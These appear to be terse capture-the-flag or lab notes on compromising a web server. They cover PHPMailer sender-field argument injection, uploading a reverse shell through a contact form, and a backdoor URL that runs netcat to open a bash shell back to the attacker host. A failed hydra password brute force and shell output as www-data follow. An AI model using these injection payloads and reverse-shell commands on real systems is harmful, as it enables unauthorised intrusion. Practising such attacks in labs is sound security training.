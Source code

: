 "Attacker \" -Param2 -Param3"@test.com
when passed to PHPMailer (and eventually to mail()) function would cause
sendmail to execute with:
Arg no. 0 == [/usr/sbin/sendmail]
Arg no. 1 == [-t]
Arg no. 2 == [-i]
Arg no. 3 == [-fAttacker\]
Arg no. 4 == [-Param2]
Arg no. 5 == [-Param3"@test.com]

__The contact form is bugged.__
Forms sent to mail.php if 404 not found.
The real url is contact.php, the contact page itself.

https://www.exploit-db.com/exploits/40974
Add : # coding: utf-8
Set 11.0.0.20/contact.php as target
Upload the TCP reverse shell
Open the nc : nc -l -p 4444
Call the shell : http://11.0.0.20/shell.php 

=> remote shell


# nc -lnvp 1234
get http://11.0.0.20/backdoor.php?cmd=nc 11.0.0.21 1234 -e /bin/bash


### [hydra] : ko
cat users.txt
steven
michael

hydra -L users.txt -P /usr/share/wordlists/rockyou.txt

Aborted.. too long, no results

## [ Remote shell]

$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


$ pwd
/var/www/html

$ $ bash
ls -al
total 196
drwxrwxrwx 10 root     root      4096 Feb 19 05:51 .
drwxrwxrwx  3 root     root      4096 Nov  9 08:16 ..
-rw-r--r--  1 root     root     18436 Aug 12  2018 .DS_Store
drwxr-xr-x  7 root     root      4096 Aug 12  2018 Security - Doc  <==>
-rw-r--r--  1 root     root     13265 Aug 13  2018 about.html
-rw-r--r--  1 root     root     10441 Aug 13  2018 contact.php
-rw-r--r--  1 root     root      3384 Aug 12  2018 contact.zip     <== ko
drwxr-xr-x  4 root     root      4096 Aug 12  2018 css
-rw-r--r--  1 root     root     35226 Aug 12  2018 elements.html
drwxr-xr-x  2 root     root      4096 Aug 12  2018 fonts
drwxr-xr-x  5 root     root      4096 Aug 12  2018 img
-rw-r--r--  1 root     root     16819 Aug 13  2018 index.html
drwxr-xr-x  3 root     root      4096 Aug 12  2018 js
drwxr-xr-x  4 root     root      4096 Aug 12  2018 scss
-rw-r--r--  1 root     root     11114 Nov  9 08:16 service.html
-rw-r--r--  1 www-data www-data 17255 Feb 19 05:51 shell.php
-rw-r--r--  1 root     root     15449 Aug 13  2018 team.html